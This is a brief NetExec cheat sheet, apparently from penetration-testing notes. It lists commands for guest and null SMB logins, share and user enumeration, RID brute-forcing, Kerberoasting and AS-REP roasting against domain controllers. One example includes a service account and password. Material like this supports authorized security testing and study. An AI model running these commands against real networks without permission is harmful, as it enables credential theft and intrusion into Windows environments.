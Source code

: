 Netexec is a powerful tool often used for exploitation in Active Directory Environments, though it can broadly be used against most windows targets.

## Installation
```bash
sudo apt install pipx git  
pipx ensurepath  
pipx install git+https://github.com/Pennyw0rth/NetExec
```
## Testing Authentication

```bash
# Guest Login
netexec smb target -u 'guest' -p ''

# Null Login
netexec smb target -u '' -p ''

# Local Authentication
netexec smb target -u username -p password --local-auth
```

## SMB
NetExec can be used to enumerate and exploit SMB.
```bash
# List Shares
netexec smb target -u '' -p '' --shares  

# Enumerate Information
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol


```

## Kerberoast and ASREPRoast
```bash
# Kerberoast, target must be DC
netexec ldap target -u username -p password --kerberoasting hash.txt  

# ASREP-Roast, target must be DC
netexec ldap target -u username -p password --asreproast hash.txt
```

## Auto Generate Hosts File
```bash
netexec smb 10.9.20.12 -u svc_sql -p ef8Mahvae2j1 --generate-hosts hosts.txt
```

## Resources
https://seriotonctf.github.io/2024/03/07/CrackMapExec-and-NetExec-Cheat-Sheet/